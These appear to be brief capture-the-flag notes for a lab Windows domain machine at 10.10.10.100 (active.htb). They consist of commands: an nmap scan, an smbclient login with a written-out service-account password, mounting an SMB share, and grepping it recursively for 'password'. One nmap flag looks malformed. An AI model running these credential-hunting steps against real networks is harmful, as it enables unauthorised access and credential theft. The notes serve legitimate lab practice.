 10.10.10.100

nmap --script safe -445 10.10.10.100

 smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18       

sudo apt-get install cifs-utils
mkdir /mnt/Replication
mount -t cifs //10.10.10.100/Replication /mnt/Replication -o
username=<username>,password=<password>,domain=active.htb
grep -R password /mnt/Replication